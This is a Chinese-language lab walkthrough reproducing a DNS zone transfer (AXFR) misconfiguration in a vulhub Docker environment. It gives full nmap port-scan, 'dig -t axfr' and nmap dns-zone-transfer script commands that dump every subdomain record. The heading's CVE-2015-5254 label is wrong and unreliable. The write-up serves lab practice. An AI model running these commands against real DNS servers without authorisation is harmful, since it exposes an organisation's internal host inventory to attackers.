






# DNS域传送漏洞（CVE-2015-5254）

## 漏洞原理

DNS协议支持使用AXFR（注1）类型的记录进行区域传送，用来解决主从同步问题，如果管理员在配置DNS服务器的时候没有限制允许获取记录的来源，将会导致DNS域传送漏洞。

注1：AXFR（完全区域传输）,为了为新的服务器添加到网络配置为现有区域的新辅助服务器时，进行从主要区域中复制和同步所有区域副本，来保证解析名称查询时的可用性和容错。

## 影响版本

未限制允许获取记录来源的DNS服务器

## 复现机器版本

攻击机：Ubuntu18.04

靶机：Ubuntu18.04 Docker version 20.10.10

## 漏洞复现

### 准备阶段 

#### 进入靶场，启动服务

```
cd /home/radiuscircle/vulhub/dns/dns-zone-transfer
```

需要注意，DNS域传送漏洞会用到53端口，53端口已被占用，所以直接使用

```
docker-compose up -d
```

启动容器将会报错



需要先关闭内建DNS服务器

```
service systemd-resolved stop
```

然后重启容器

```
docker-compose up -d
```



#### 信息收集

使用nmap工具进行对网站服务的端口扫描

```
sudo nmap -sS -T5 -n -p- your_ip
```



可以看到打开了53端口

### 漏洞利用

在这里，小编将演示两种检测服务器是否存在DNS域传送漏洞的方法

#### 1、dig命令

首先，我们通过

```
dig @your-ip www.vulhub.org
```

获取域名www.vulhub.org的A记录来找到dns服务器



接着，我们发送axfr类型的dns请求

```
dig @your-ip -t axfr vulhub.org
```



获取到了`vulhub.org`的所有子域名记录，说吗这里存在DNS域传送漏洞。

#### 2、nmap

使用nmap扫描器附带的脚本，我们就可以扫描DNS服务器是否存在域传送漏洞

```
nmap --script dns-zone-transfer.nse --script-args "dns-zone-transfer.domain=vulhub.org" -Pn -p 53 your-ip
```



综上可见，这里存在DNS域传送漏洞，通过它可以获取vulhub.org的所有子域名记录。

### 关闭容器

```
docker-compose down
```

